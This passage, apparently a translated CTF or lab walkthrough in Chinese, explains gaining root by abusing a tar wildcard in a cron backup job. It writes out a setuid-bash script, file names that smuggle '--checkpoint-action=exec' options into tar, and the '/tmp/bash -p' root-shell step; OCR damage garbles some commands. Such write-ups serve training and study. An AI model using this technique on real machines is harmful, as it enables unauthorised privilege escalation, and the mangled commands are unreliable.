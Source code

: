 ![](img/ec8dd18f90bc513992d4f0dff7db0404.png)

在这个场景中，每 2 分钟使用 **tar** 将 **/home/andre/backup** 文件夹中的所有文件和文件夹备份到 **/tmp** 文件夹中作为 **andre_backup.tar.gz** ，但是有一个问题，即 ***(通配符)**，这意味着 **/home/andre/backup** 文件夹中的任何内容都是备份的，我们可以使用这个功能来滥用这台机器。

***步骤 2 - >*** 创建 bash one liner

我们简单地创建一个 bash one liner 来获取根 shell

```
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" > exploit.sh
```

它可以将 **/bin/bash** 复制到 **/tmp/bash** 中，并赋予其权限为 **setuid** 和 **setgid**

将此文件保存到 **/home/andre/backup** 文件夹中。授予它执行权限。并键入如下两个命令。

**touch/home/Andre/backup/—check point = 1**(**—check point = 1**是 **tar** 用于显示 1 条记录后的进度信息)

**touch/home/Andre/backup/—check point-action = exec = sh \ exploit . sh(**它用于在每个检查点运行指定的操作后，即运行 **exploit.sh)**

等待 2 分钟…..

键入命令: **/tmp/bash -p** (用于执行 **/tmp/bash** 文件夹)

我们得到了我们的根壳…… &旗帜……..

![](img/fbae8451317a7b083597bb6e4146c480.png)
